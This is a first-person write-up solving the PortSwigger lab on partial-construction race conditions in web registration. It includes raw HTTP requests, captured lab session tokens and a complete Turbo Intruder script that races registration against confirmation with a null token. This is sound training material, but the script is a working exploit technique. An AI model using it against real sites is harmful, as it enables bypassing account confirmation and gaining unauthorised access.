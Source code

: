 # Portswigger Lab: Race Conditions Partial Construction - My Solution

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the presence of a phpsessionid cookie.

Both the research paper and the academy article mention that the
standard PHP session library forces sequential requests within a given
session, masking race condition vulnerabilities. So I decided that my first
step would be to create a valid sessions, and gather the *phpsessionid* and
corresponding anti-csrf tokens.

My first attempt to generate sessions was with Burp macros, but after a few
hours of little or no progress I decided that I'd learn about macros later,
and would resort to pre-creating sessions in the Intruder. My reasoning is
that these sessions would be valid for some time, possibly for the lifetime
of the lab instance. 

I did worry a bit that a registration event might become tied to a given
session, but thankfully that turned out not to be the case.

Here's the request I used in Intruder:

```
GET /register HTTP/2
Host: <host>.web-security-academy.net
X-Count: §xxx§

```

![A simple GET request sent to intruder, and minimised, with an extra header for the dummy payload](resources/intruder_positions.png)

I decided to use sniper mode, with a dummy payload placed in a user-defined
header. In this case `X-Count`. 100 requests turned out to be overkill, but
I'll address that later.

![The payload is just a count](resources/intruder_payloads.png)

All that's left is to set up the extraction of server-provided data, the
phpsessionid and its associated anti-CSRF token, which are easily done in
the extraction tool in the Intruder settings section.

![Extract the phpsessionid from all responses](resources/intruder_extract_phpsessionid.png)

![Extract the anti-CSRF token from all responses](resources/intruder_extract_csrf.png)


The attack runs smoothly, and produces a results table which can be copied
and pasted into a file. Again these sessions seem to last for the lifetime
of the lab container instance.

![The results from Intruder](resources/intruder_results.png)

Here's an example of the Intruder attack output as text. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Once I had sessions I moved on constructing the actual turbo intruder
attack, and for an hour or so I got it completely wrong. I started with a
strategy of attacking the password, using a login request, reasoning that
there might be a short window in which the account is available and
unlocked. 

That didn't work, of course, but it did lead to a key observation. All POST
endpoints in the lab accept *extra* POST parameters without complaint. This
means that it's possible to use a single request for all endpoints, with
the path as a parameter.

Let's compare a valid registration request:
```
POST /register HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

With a valid login request:
```
POST /login HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

The login endpoint simply ignores the extra *email* parameter, which means
that the path can be parametized in Turbo-Intruder:

```
POST /%s HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=%s
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=%s&username=%s&email=%s%40ginandjuice.shop&password=peter
```

Later when I got frustrated that this wasn't working I went back and found
the oddly named /resources/static/users.js, and pretty quickly constructed
a GET request to /confirm. From there all that was left was to validate
that the /confirm POST endpoint would accept extra params. It does:

```
POST /confirm?token=foo HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

That means that just as with the failed attempt on the /login endpoint it's
possible to bounce back and forth between registration and confirmation.

So that's exactly what my Turbo-Intruder settings script does. For each
registration it also queues a confirmation POST in the hope that one or
mroe of them hit the tiny window during which confirmation can be done
a null token. The server of course processes the requests in whatever order
it chooses. So it's all luck from here:

Turbo-Intruder configuration (also available as ./partial_construction_race_condition.py).

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

However it turns out that 100 registrations are complete overkill.
Statistically it looks like just under one quarter of the confirmation
requests hit the window, producing about two dozen valid accounts:

![Turbo intruder setup](resources/turbo_intruder_setup.png)

![Turbo intruder results](resources/turbo_intruder_success.png)


All that's left is to log in with one of them and delete *Carlos*:

![](resources/success.png)


## Lessons learned

I really should have noticed users.js earlier. Having done so would have
saved me at least an hour. I can generalize this into a lesson to invest
more time into the reconaissance phase of an attack.



